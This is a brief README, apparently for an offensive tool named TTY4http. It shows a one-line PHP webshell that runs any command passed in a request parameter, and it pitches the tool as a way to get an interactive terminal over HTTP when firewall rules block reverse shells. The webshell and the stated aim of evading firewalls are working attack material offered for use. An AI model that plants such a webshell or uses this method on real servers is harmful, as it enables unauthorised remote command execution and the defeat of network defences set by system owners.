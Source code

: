 # TTY4http

Using a basic webshell:
```php
// webshell
<?php 
    system($_REQUEST['cmd']); 
?>
```
Obtain a tty by http, ideal for when iptables reblas are implemented, preventing the option of a reverse shell by tcp or udp.
